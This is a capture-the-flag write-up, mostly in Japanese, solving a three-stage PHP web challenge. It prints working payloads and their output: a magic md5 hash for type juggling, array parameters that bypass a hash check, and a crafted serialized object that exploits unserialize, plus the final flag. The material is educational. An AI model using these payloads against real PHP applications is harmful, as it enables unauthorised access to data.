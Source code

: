 # BANGERS!:Web:15pts
Banger. A CTF challenge that makes you feel the need to headbang to the beat of your keyboard. CTF313's Web03 challenge is full of bangers. Check it out if your tryin to rage!  
In Scope: http://web03.ctf313.com/  
Hack the web app only. You have the source code, no need to brute force or spam anything.  
Server and Infrastructure are out of scope and will result in an automatic ban and public shaming for being a 💩.  

# Solution
URLにアクセスするとphpソースが表示される。  
段階的にロックを突破するようだ。  
Web03 Challenge "Bangers"  
[site.png](site/site.png)  
最初は以下の部分に注目する。  
```php
$taws = $_GET['taws'];
if($taws != md5($taws)){
    die("Your Dead");
}

echo substr($flag,0,15) . "\n";
```
入力とmd5ハッシュ値を比較しているが厳密等価演算子ではない。  
つまり0eで始まり、残りが数字となる値は0と見なされる。  
0eから始まる入力で、ハッシュ値が0eから始まるものは、入力`0e215962017`、ハッシュ値`0e291242476940776845150308577824`が知られている。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://web03.ctf313.com/?taws=0e215962017"
flag{H4xor1N9-P
Death has found you
```
次に以下の部分に注目する。  
```php
$tabernacle = $_GET['tabernacle']; 
$quantile = $_GET['quantile']; 


if(!($tabernacle) || !($quantile)){
    die("Death has found you");
}

if ($tabernacle === $quantile) {
    die("There are many ways to die. You seem to find them easily");
}

if (hash('md5', $saltysalt . $tabernacle) == hash('md5', $saltysalt . $quantile)) {
    echo substr($flag, 0, 30) . "\n";
} else {
    die("Patched this booboo srynotsry");
}
```
`$saltysalt`がつけられた二つの入力のmd5ハッシュ値を比較している。  
二つの入力は異なる必要があるようだ。  
配列を渡すことで`$saltysalt . "Array"`になる。  
これにより厳密等価演算子を突破し、md5ハッシュ値を一致させることができる。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://web03.ctf313.com/?taws=0e215962017&tabernacle[]=a&quantile[]=b"
flag{H4xor1N9-P
flag{H4xor1N9-PhP-15-4LL-4BoU7
Bang, you dead
```
最後に以下の部分に注目する。  
```php
class Wutang {
    var $wut;
    var $ang;
}

$gat = $_GET['gat'];

if (!($gat)) {
    die("Bang, you dead");
}

$banger = unserialize($gat);

if ($banger) {

    $banger->ang=$flag;
    if ($banger->ang === $banger->wut) {
        echo $banger->ang ."\n";
    } else {
        die("Death Brought BANGERS");
    }

} else {

    die("Ba-ba-ba BANGERRR. Dead.");
}
```
unserializeしたオブジェクトの`$ang`にflagを代入している。  
それが`$wut`と一致してほしいので、参照させればよい。  
よって`O:6:"Wutang":2:{s:3:"ang";N;s:3:"wut";R:2;}`となる。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - 'http://web03.ctf313.com/?taws=0e215962017&tabernacle[]=a&quantile[]=b&gat=O:6:"Wutang":2:{s:3:"ang";N;s:3:"wut";R:2;}'
flag{H4xor1N9-P
flag{H4xor1N9-PhP-15-4LL-4BoU7
flag{H4xor1N9-PhP-15-4LL-4BoU7-coMP4R15ON5-4Nd-lUlz}
```
flagが得られた。  

## flag{H4xor1N9-PhP-15-4LL-4BoU7-coMP4R15ON5-4Nd-lUlz}